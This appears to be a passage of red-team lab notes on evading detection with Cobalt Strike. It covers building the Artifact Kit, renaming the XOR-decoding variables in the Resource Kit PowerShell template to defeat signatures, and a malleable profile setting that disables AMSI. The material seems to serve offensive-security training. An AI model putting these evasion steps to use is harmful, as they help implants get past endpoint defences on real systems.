 **Then run build.sh**

```
./build.sh
```

**Download files to W10**

```
pscp -r root@kali:/opt/cobaltstrike/artifact-kit/dist-pipe .
```

* Make sure C:\tools\cobaltstrike\Artifactkit\dist-pip\artifact.cna is loaded

#### Resource-kit

```
notepad C:\tools\cobaltstrike\ResourceKit\template.x64.ps1
```

**Changed all variables in the file from this part --> to**

```
for ($x = 0; $x -lt $var_code.Count; $x++) {
  $var_code[$x] = $var_code[$x] -bxor 35
}


for ($i = 0; $i -lt $var_service.Count; $i++) {
	$var_service[$i] = $var_service[$i] -bxor 35
}
```

* Find & Replace for $x -> $i and $var\_code -> $var\_service.
* Make sure C:\tools\cobaltstrike\Resourcekit\resources.cna is loaded

#### Amsi

**Add the following to the .profile**

```
post-ex {
    set amsi_disable "true";
}
```
